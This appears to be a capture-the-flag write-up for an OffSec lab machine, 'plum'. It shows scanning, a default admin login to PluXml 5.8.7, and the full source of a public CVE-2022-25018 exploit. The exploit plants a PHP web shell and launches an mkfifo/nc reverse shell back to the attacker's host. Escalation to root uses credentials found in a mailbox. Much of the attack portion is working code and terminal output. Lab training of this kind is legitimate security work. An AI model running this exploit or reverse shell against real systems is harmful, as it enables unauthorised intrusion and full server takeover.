

# plum

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Intermediate
Community Rating: Intermediate
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 2
Lab Description:
This lab demonstrates exploiting a Remote Code Execution (RCE) vulnerability in PluXml v5.8.7 
(CVE-2022-25018) by injecting a malicious PHP payload into a static page. Privilege escalation 
is achieved by discovering root credentials in the mail directory, enabling direct root access. 
This lab highlights weak web protections, file upload vulnerabilities, and privilege 
escalation through credential disclosure.
Released: 31 Aug 2023
```

Machine link: [https://portal.offsec.com/machine/plum-52208/overview/details](https://portal.offsec.com/machine/plum-52208/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ export TARGET_IP=192.168.246.28

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-08 13:34 +0200
Nmap scan report for 192.168.246.28
Host is up (0.033s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: PluXml - Blog or CMS, XML powered !
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.68 seconds
```

We have two TCP-services running and available:

- OpenSSH 8.4p1 Debian 5+deb11u1 on port 22
- Apache httpd 2.4.56 on port 80

We also do an UDP-scan of the top 100 ports but find nothing

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ sudo nmap -sU --top-ports 100 -sV -sC $TARGET_IP
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-08 13:40 +0200
Nmap scan report for 192.168.246.28
Host is up (0.030s latency).
All 100 scanned ports on 192.168.246.28 are in ignored states.
Not shown: 57 closed udp ports (port-unreach), 43 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 297.76 seconds
```

### Check the web site

Accessing the website on port 80 we have a blog


At the bottom of the page there is an `Administration` link that leads to a login page


We are able to login with the credentials `admin:admin`.



A scan with `whatweb` gives us the following information

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ whatweb -a3 http://$TARGET_IP     
http://192.168.246.28 [200 OK] Apache[2.4.56], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], HttpOnly[PHPSESSID], IP[192.168.246.28], PoweredBy[&nbsp;], Title[PluXml - Blog or CMS, XML powered !]
```

Scanning for additional interesting files and directories with `gobuster` we get

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP      
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.246.28
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 6272]
/.php                 (Status: 403) [Size: 279]
/sitemap.php          (Status: 200) [Size: 717]
/.html                (Status: 403) [Size: 279]
/feed.php             (Status: 200) [Size: 3937]
/themes               (Status: 200) [Size: 0]
/data                 (Status: 200) [Size: 0]
/plugins              (Status: 200) [Size: 0]
/core                 (Status: 200) [Size: 0]
/update               (Status: 200) [Size: 0]
/config.php           (Status: 200) [Size: 0]
/readme               (Status: 200) [Size: 1332]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Accessing `http://192.168.246.28/readme/` we find that directory listing is enabled and we see three files including a `CHANGELOG`

```text
## PLUXML 5.8.7 (2021/06/03) ##
[+] Move plugins cached css files to data folder #526 (bazooka07)
[+] Open static page from administration in a new tab #532 (bazooka07)
[+] i18n Occitan correction #535 (Mejans)
[+] PHPMailer update to 6.4.1 (P3ter)
FIX Comments no more displayed with PHP8 #529 (bazooka07)
FIX Revert .htaccess generation for plugins compatibility with url rewrite (P3ter)
FIX Wrong use of uasort() in pages and categories edition #530 (bazooka07)
FIX Display 404 error page when switching to a theme with a missing template #533 (bazooka07)
FIX Category creation can replace an existing category #534 (bazooka07)
FIX Minors CSS fixes (P3ter)

## PLUXML 5.8.6 (2021/02/15) ##
[+] Update PHPMailer 6.2.0 : security fixes and PHP 8.0 compatibility (P3ter)
[+] Distinct article and comment rss feeds configuration #521 (thx3r)
[+] Refine plxMotor::urlRewrite() to use parse_url() #520 (bazooka07)
FIX Missing thumbnail in first article #518 #525 (bazooka07, sudwebdesign)
FIX Error when editing .htaccess when Apache is not installed (P3ter)
FIX 404 Error when accessing /blog with url rewriting (bazooka07)
FIX Error on article publication caused by regex in plxMotor::artInfoFromFilename() #522 (bazooka07)
FIX Wording change on the capcha question #523 (Thx3r)
<---snip--->
```

So we are running `PLUXML 5.8.7`.

### Search for exploit(s)

We search for exploits with `searchsploit`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ searchsploit PLUXML        
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Pluxml 0.3.1 - Remote Code Execution                                                                                                                            | php/webapps/4096.php
PluXml 5.0.1 - Multiple Cross-Site Scripting / HTML Injection Vulnerabilities                                                                                   | php/webapps/34841.txt
PluXml 5.1.5 - Local File Inclusion                                                                                                                             | php/webapps/18828.txt
Pluxml-Blog 4.2 - '/core/admin/auth.php' Cross-Site Scripting                                                                                                   | php/webapps/33413.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

but doesn't find anything locally.

Googling for `PLUXML 5.8.7 exploit` we find [CVE-2022-25018](https://nvd.nist.gov/vuln/detail/CVE-2022-25018).

Looking for exploits on GitHub we find [this one](https://github.com/erlaplante/pluxml-rce)

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ wget https://raw.githubusercontent.com/erlaplante/pluxml-rce/refs/heads/main/pluxml.py         
--2026-04-08 13:52:24--  https://raw.githubusercontent.com/erlaplante/pluxml-rce/refs/heads/main/pluxml.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4251 (4.2K) [text/plain]
Saving to: ‘pluxml.py’

pluxml.py                                        100%[========================================================================================================>]   4.15K  --.-KB/s    in 0.003s  

2026-04-08 13:52:25 (1.27 MB/s) - ‘pluxml.py’ saved [4251/4251]

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ cat pluxml.py 
# PluXml 5.8.7

import sys
import urllib.parse

import requests
from bs4 import BeautifulSoup

def get_token(s, url, path):
    try:
        r = s.get(url + path, verify=False)
        if r.status_code == 200:
            soup = BeautifulSoup(r.text, 'html.parser')
            token = soup.find('input', {'name':'token'})['value']
            return token
        else:
            sys.exit(f'[-] Error: {r.status_code}, check your connection or URL')
    except Exception:
        sys.exit(f'[-] Unexpected error before server could respond, check: {url}')

def login(s, url, user, passwd):
    auth_path = '/core/admin/auth.php?p=/core/admin/'
    token = get_token(s, url, auth_path)

    login_path = f'/core/admin/auth.php?p={url}' + '/core/admin'
    headers = {'Content-type': 'application/x-www-form-urlencoded'}
    data = {'token': token, 'login': user, 'password': passwd}

    r = s.post(url + login_path, data=data, verify=False, headers=headers)
    auth_failed = 'Incorrect login or password'
    if r.status_code == 200:
        if auth_failed in r.text:
            sys.exit('[-] Error: ' + auth_failed)
        else:
            print(f'[+] Successfully logged in as: {user}')
            return s 
    else:
        sys.exit(f'[-] Error: {r.status_code}, check your connection or URL')

def exploit_template(s, url, rhost, rport):
    edit_path = '/core/admin/parametres_edittpl.php'
    token = get_token(s, url, edit_path)
    
    headers = {'Content-type': 'application/x-www-form-urlencoded'}
    content = """<?php include __DIR__.'/header.php'; ?>
        <main class="main">
                <div class="container">
                        <div class="grid">
                                <div class="content col sml-12 med-9">
                                        <article class="article static" id="static-page-<?php echo $plxShow->staticId(); ?>">
                                                <header>
                                                        <h2>
                                                                <?php $plxShow->staticTitle(); ?>
                                                        </h2>
                                                </header>
                                                <?php $plxShow->staticContent(); ?>
                                        </article>
                                </div>
                                <?php include __DIR__.'/sidebar.php'; ?>
                        </div>
                </div>
        </main>
        """
    footer = "<?php include __DIR__.'/footer.php'; ?>"
    simple_web_shell = "<?php system($_GET['cmd']); ?>"

    data = {'token': token, 'template': 'static.php', 'load': 'Load', 'tpl': 'static.php', 'content': content + footer}
    r = s.post(url + edit_path, data=data, verify=False, headers=headers)
    soup = BeautifulSoup(r.text, 'html.parser')
    token = soup.find('input', {'name':'token'})['value']   
    
    print('[+] Attemtping to save template...')
    data = {'token': token, 'template': 'static.php', 'submit': 'Save the file', 'tpl': 'static.php', 'content': content + simple_web_shell + footer}
    s.post(url + edit_path, data=data, verify=False, headers=headers)

    # change reverse shell type and/or bash path as appropriate
    rev_shell = f'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/usr/bin/bash -i 2>&1|nc {rhost} {rport}>/tmp/f'
    enc_rshell = urllib.parse.quote(rev_shell, safe='') 
    exploited_path = '/index.php?static1/static-1'
    print('[+] Check your listener...')
    s.get(url + exploited_path + f'&cmd={enc_rshell}', verify=False, headers=headers)

def main():
    if len(sys.argv) != 6:
        print(f'[-] Usage:   {sys.argv[0]} <URL> <UserName> <Password> <RHOST> <RPORT>')
        print(f'[-] Example: {sys.argv[0]} http://example.com admin pass123 192.168.10.10 443')
        sys.exit(-1)

    url = sys.argv[1]
    user = sys.argv[2]
    passwd = sys.argv[3]
    rhost = sys.argv[4]
    rport = sys.argv[5]
    
    s = requests.Session()

    print('[+] Attempting login...')
    client = login(s, url, user, passwd)

    print('[+] Attempting to modify template...')
    exploit_template(client, url, rhost, rport)

if __name__ == "__main__":
    main()
```

The exploit requires credentials (which we have) and gives us a reverse shell.

### Try out the exploit

We start a netcat listener on port 80

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ nc -lvnp 80                
listening on [any] 80 ...

```

And try out the exploit

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ python pluxml.py http://192.168.246.28 admin admin 192.168.45.218 80
[+] Attempting login...
[+] Successfully logged in as: admin
[+] Attempting to modify template...
[+] Attemtping to save template...
[+] Check your listener...

```

Back at our netcat listener, we have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ nc -lvnp 80                
listening on [any] 80 ...
connect to [192.168.45.218] from (UNKNOWN) [192.168.246.28] 59224
bash: cannot set terminal process group (779): Inappropriate ioctl for device
bash: no job control in this shell
www-data@plum:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@plum:/var/www/html$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
www-data@plum:/var/www/html$ tty
tty
not a tty
www-data@plum:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@plum:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 80

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/plum]
└─$ stty raw -echo ; fg ; reset
[1]  + continued  nc -lvnp 80

www-data@plum:/var/www/html$ export SHELL=/bin/bash
www-data@plum:/var/www/html$ export TERM=xterm-256color
www-data@plum:/var/www/html$ stty rows 200 columns 200
www-data@plum:/var/www/html$ ^C
www-data@plum:/var/www/html$ 
```

Now we have a stable shell that survives `Ctrl + C`!

### Get the user flag

Now we can start looking for the user flag

```bash
www-data@plum:/var/www/html$ find /home -type f -name local.txt 2>/dev/null
www-data@plum:/var/www/html$ find / -type f -name local.txt 2>/dev/null
/var/www/local.txt
www-data@plum:/var/www/html$ cat /var/www/local.txt
7<REDACTED>c
www-data@plum:/var/www/html$ 
```

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

Checking for SUID binaries we find `exim4` that stands out

```bash
www-data@plum:/var/www/html$ find / -type f -perm /4000 2>/dev/null
/usr/sbin/exim4
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/passwd
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/sudo
www-data@plum:/var/www/html$ 
```

Maybe we should look for e-mails?

```bash
www-data@plum:/var/www/html$ ls -la /var/mail
total 12
drwxrwsr-x  2 root     mail 4096 Apr  8 08:15 .
drwxr-xr-x 12 root     root 4096 Aug 25  2023 ..
-rw-rw----  1 www-data mail 2664 Apr  8 08:15 www-data
www-data@plum:/var/www/html$ cat /var/mail/www-data 
From root@localhost Fri Aug 25 06:31:47 2023
Return-path: <root@localhost>
Envelope-to: www-data@localhost
Delivery-date: Fri, 25 Aug 2023 06:31:47 -0400
Received: from root by localhost with local (Exim 4.94.2)
        (envelope-from <root@localhost>)
        id 1qZU6V-0000El-Pw
        for www-data@localhost; Fri, 25 Aug 2023 06:31:47 -0400
To: www-data@localhost
From: root@localhost
Subject: URGENT - DDOS ATTACK"
Reply-to: root@localhost
Message-Id: <E1qZU6V-0000El-Pw@localhost>
Date: Fri, 25 Aug 2023 06:31:47 -0400

We are under attack. We've been targeted by an extremely complicated and sophisicated DDOS attack. I trust your skills. Please save us from this. Here are the credentials for the root user:  
root:6s8kaZZNaZZYBMfh2YEW
Thanks,
Administrator

From MAILER-DAEMON Wed Apr 08 08:15:59 2026
Return-path: <>
Envelope-to: www-data@localhost
Delivery-date: Wed, 08 Apr 2026 08:15:59 -0400
Received: from Debian-exim by localhost with local (Exim 4.94.2)
        id 1wARp9-0000OO-SZ
        for www-data@localhost; Wed, 08 Apr 2026 08:15:59 -0400
X-Failed-Recipients: debian@localhost
Auto-Submitted: auto-replied
From: Mail Delivery System <Mailer-Daemon@localhost>
To: www-data@localhost
References: <E1wARp9-0000OL-RV@localhost>
Content-Type: multipart/report; report-type=delivery-status; boundary=1775650559-eximdsn-2009840941
MIME-Version: 1.0
Subject: Mail delivery failed: returning message to sender
Message-Id: <E1wARp9-0000OO-SZ@localhost>
Date: Wed, 08 Apr 2026 08:15:59 -0400

--1775650559-eximdsn-2009840941
Content-type: text/plain; charset=us-ascii

This message was created automatically by mail delivery software.

A message that you sent could not be delivered to one or more of its
recipients. This is a permanent error. The following address(es) failed:

  debian@localhost
    (generated from root@localhost)
    Unrouteable address

--1775650559-eximdsn-2009840941
Content-type: message/delivery-status

Reporting-MTA: dns; localhost

Action: failed
Final-Recipient: rfc822;root@localhost
Status: 5.0.0

--1775650559-eximdsn-2009840941
Content-type: message/rfc822

Return-path: <www-data@localhost>
Received: from www-data by localhost with local (Exim 4.94.2)
        (envelope-from <www-data@localhost>)
        id 1wARp9-0000OL-RV
        for root@localhost; Wed, 08 Apr 2026 08:15:59 -0400
To: root@localhost
Auto-Submitted: auto-generated
Subject: *** SECURITY information for localhost ***
From: www-data <www-data@localhost>
Message-Id: <E1wARp9-0000OL-RV@localhost>
Date: Wed, 08 Apr 2026 08:15:59 -0400

localhost : Apr  8 12:15:59 : www-data : 3 incorrect password attempts ; TTY=pts/0 ; PWD=/var/www/html ; USER=root ; COMMAND=list


--1775650559-eximdsn-2009840941--

www-data@plum:/var/www/html$ 
```

In the first e-mail we have root's credentials (`root:6s8kaZZNaZZYBMfh2YEW`)!

### Get a root shell

We can now just use `su` to get a root shell

```bash
www-data@plum:/var/www/html$ su -
Password: 
root@plum:~# id
uid=0(root) gid=0(root) groups=0(root)
root@plum:~# 
```

### Get the root flag

Finally we can get the root flag

```bash
root@plum:~# cd /root
root@plum:~# ls -l
total 12
-rw-r--r-- 1 root root  5 Aug 25  2023 email7.txt
-rw-r--r-- 1 root root 33 Apr  8 07:34 proof.txt
-rw-r--r-- 1 root root 33 Aug 25  2023 proof.xt
root@plum:~# cat proof.txt 
9<REDACTED>f
root@plum:~# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [CVE-2022-25018 - NIST](https://nvd.nist.gov/vuln/detail/CVE-2022-25018)
- [Exim - Wikipedia](https://en.wikipedia.org/wiki/Exim)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [PluXml 5.8.7 RCE - erlaplante - GitHub](https://github.com/erlaplante/pluxml-rce)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [searchsploit - Homepage](https://www.exploit-db.com/searchsploit)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [stty - Linux manual page](https://man7.org/linux/man-pages/man1/stty.1.html)
- [su - Linux manual page](https://man7.org/linux/man-pages/man1/su.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tty - Linux manual page](https://man7.org/linux/man-pages/man1/tty.1.html)
- [wget - Linux manual page](https://man7.org/linux/man-pages/man1/wget.1.html)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
